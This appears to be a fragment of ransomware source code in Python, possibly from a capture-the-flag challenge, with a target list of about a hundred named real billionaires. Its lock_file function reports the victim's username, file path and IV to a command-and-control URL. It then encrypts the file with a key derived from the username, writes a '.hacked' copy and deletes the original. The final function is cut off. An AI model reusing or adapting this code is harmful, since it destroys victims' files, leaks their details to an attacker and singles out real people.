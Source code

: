 ```python
TARGETS = [b'Scott Farquhar', b'Lei Jun', b'Reid Hoffman', b'Zhou Qunfei', b'Jeff Bezos', b'Shiv Nadar', b'Simon Xie', b'Ma Huateng', b'Ralph Dommermuth', b'Barry Lam', b'Nathan Blecharczyk', b'Judy Faulkner', b'William Ding', b'Scott Cook', b'Gordon Moore', b'Marc Benioff', b'Michael Dell', b'Yusaku Maezawa', b'Yuri Milner', b'Bobby Murphy', b'Larry Page', b'Henry Samueli', b'Jack Ma', b'Jen-Hsun Huang', b'Jay Y. Lee', b'Joseph Tsai', b'Dietmar Hopp', b'Henry Nicholas, III.', b'Dustin Moskovitz', b'Mike Cannon-Brookes', b'Robert Miller', b'Bill Gates', b'Garrett Camp', b'Lin Xiucheng', b'Gil Shwed', b'Sergey Brin', b'Rishi Shah', b'Denise Coates', b'Zhang Fan', b'Michael Moritz', b'Robin Li', b'Andreas von Bechtolsheim', b'Brian Acton', b'Sean Parker', b'John Doerr', b'David Cheriton', b'Brian Chesky', b'Wang Laisheng', b'Jan Koum', b'Jack Sheerack', b'Terry Gou', b'Adam Neumann', b'James Goodnight', b'Larry Ellison', b'Wang Laichun', b'Masayoshi Son', b'Min Kao', b'Hiroshi Mikitani', b'Lee Kun-Hee', b'David Sun', b'Mark Scheinberg', b'Yeung Kin-man', b'John Tu', b'Teddy Sagi', b'Frank Wang', b'Robert Pera', b'Eric Schmidt', b'Wang Xing', b'Evan Spiegel', b'Travis Kalanick', b'Steve Ballmer', b'Mark Zuckerberg', b'Jason Chang', b'Lam Wai Ying', b'Romesh T. Wadhwani', b'Liu Qiangdong', b'Jim Breyer', b'Zhang Zhidong', b'Pierre Omidyar', b'Elon Musk', b'David Filo', b'Joe Gebbia', b'Jiang Bin', b'Pan Zhengmin', b'Douglas Leone', b'Hasso Plattner', b'Paul Allen', b'Meg Whitman', b'Azim Premji', b'Fu Liquan', b'Jeff Rothschild', b'John Sall', b'Kim Jung-Ju', b'David Duffield', b'Gabe Newell', b'Scott Lin', b'Eduardo Saverin', b'Jeffrey Skoll', b'Thomas Siebel', b'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)
    iv = get_random_bytes(16)
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)
    with open(path, 'rb') as (fi):
        with open(path + '.hacked', 'wb') as (fo):
            block = fi.read(16)
            while 1:
                if block:
                    while 1:
                        if len(block) < 16:
                            block += bytes([0])
                        else:
                            break
                    cipherblock = cip.encrypt(xorbytes(block, iv))
                    iv = cipherblock
                    fo.write(cipherblock)
                    block = fi.read(16)
                else:
                    break
    os.unlink(path)


def lock_files():
    username = get_username()
    print(username)
```